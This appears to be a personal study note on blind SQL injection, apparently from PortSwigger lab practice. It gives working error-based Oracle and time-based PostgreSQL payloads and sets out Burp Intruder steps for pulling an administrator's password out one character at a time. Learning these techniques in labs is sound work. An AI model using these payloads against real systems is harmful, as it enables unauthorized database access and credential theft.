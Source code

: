 - BurpSuite
	- Proxy the request
	- Send the request to intruder and add the § between the number after Column_Name_PASSWORD and between the letter we are tying to guest (a)
	```
	' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE_NAME where COLUMN='administrator' and substr(COLUMN_NAME_PASSWORD,§2§,1)='§a§') || '
	```
	- Set the attack to Cluster Bomb and load the payloads

---

## Time Base Technique

Steps
- Prove parameter is vulnerable
- Find Column Name ??? (REVIEW)
- Find Tables
- Length of Variable (>,<,<=,>=)
- Enumeration of variable (abc...)

Example Cookie Request
![[Pasted image 20221206184026.png]]

Prove Vulnerable parameter
```
'                                         ---> Not Working with time base injection

' || (SELECT pg_sleep(10))--              ---> Return 10 seconds delait
```

||                           ---> Simply mean to the query that a new query will be made in the same query

- Try multiples type of DB query on the injection to see if it's vulnerable [CHEAT SHEET](Cheat Sheet ---> https://portswigger.net/web-security/sql-injection/cheat-sheet)
	- ex: pg_sleep
	- SLEEP
	- ...


**Find Column Name ???**
```

```


Find Tables
```
' || (select case when (1=0) then pg_sleep(10) else pg_sleep(-1) end)--

' || (select case when (COLUMN='administrator') then pg_sleep(10) else pg_sleep(-1) end from TABLE)--
```

CASE WHEN                             ---> Verify if the query is true are not (user exist or not)
(1=0) or (1=1)                            ---> Testing query for True and False query
ELSE                                          ---> If response is False (user don't exist, else respond '' -> 200)
TABLE                                        ---> Table we are interested in
COLUMN                                   ---> Column we are interested in
